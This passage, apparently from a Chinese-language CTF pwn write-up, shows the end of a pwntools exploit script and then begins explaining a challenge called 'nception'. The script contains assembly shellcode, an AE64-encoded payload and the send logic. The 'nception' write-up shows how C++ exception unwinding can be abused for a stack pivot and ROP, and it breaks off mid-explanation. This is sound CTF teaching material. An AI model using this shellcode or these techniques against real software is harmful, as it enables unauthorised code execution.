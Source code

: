 ```python
inc rdx
xor rbx,rbx
read_loop:
lea rsi,[rsp+rbx]
inc rbx
xor rax,rax
syscall
cmp rax,0
jne read_loop
push 1
pop rdi
push 1
pop rdx
xor r8,r8
write_loop:
lea rsi,[rsp+r8]
inc r8
push 1
pop rax
syscall
cmp r8,rbx
jne write_loop
push 0
"""
ru("Give me your shellcode:")
#mydbg()
enc_shellcode = asm(shellcode)+AE64().encode(asm(sc),'rax',0,"small")
print(hex(len(enc_shellcode)))
s(enc_shellcode)
p.interactive()
```

### nception

这题考察的主要是c++ 的异常处理。

程序本身里有两个catch块，一个位于main中，一个位于cleanup函数中。

![image-20231230175735581](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111778.png)

在edit中，会判断 输入的buf，通过strlen(buf)计算长度，并判断其是否超过size，如果超过，就进入异常处理。

![image-20231230175820132](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111779.png)

在unwind过程中，存在恢复栈帧的过程，也就是leave_ret。

#### 思路一

main函数catch在while内部，会接着main逻辑执行，而cleanup函数中close掉012就leave_ret;return了。

那么我们就可以利用cleanup进行栈迁移，进行rop。

由于程序关闭了0，1，2
